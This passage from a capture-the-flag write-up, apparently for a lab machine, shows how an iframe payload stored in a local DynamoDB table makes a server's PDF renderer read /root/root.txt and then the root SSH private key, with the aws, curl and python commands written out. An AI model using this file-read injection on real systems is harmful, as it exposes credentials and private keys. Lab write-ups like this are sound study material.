 `<html><body><iframe src='file:///root/root.txt'></iframe></body></html>`

I know just reading the flag is not at all interesting. Do not fret for I shall root this box in the end. Only problem was this box cleared everything faster than the speed of light. So I created a script.

{%highlight text%}
aws --endpoint-url http://localhost:4566 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=100,WriteCapacityUnits=100
aws --endpoint-url http://localhost:4566 dynamodb list-tables
aws --endpoint-url http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><body><iframe src='file:///root/root.txt'></iframe></body></html>"}}'
aws --endpoint-url http://localhost:4566 dynamodb scan --table-name alerts
curl -X POST -d"action=get_alerts"  http://localhost:8000
ls /var/www/bucket-app/files
python3 -m http.server 1234
{%endhighlight%}

Till curl the script does exactly what I just said. After that it just makes a post request to the server, lists out the files in the "files" directory and then finally sets up a python server for me to download those pdfs.

Disclaimer: Do not think that all of this was as easy as I just wrote. This took me a few days. Just because I write about success does not mean I did not face failure.

After I download the pdf I can see the sweet and juicy content.

<img src="/images/bucket/flag.png" width="500">

Now that I have submitted the flag. Lets just destroy this one completely. 

`<html><body><iframe src='file:///root/.ssh/id_rsa'></iframe></body></html>`

<img src="/images/bucket/ssh.png" width="500">
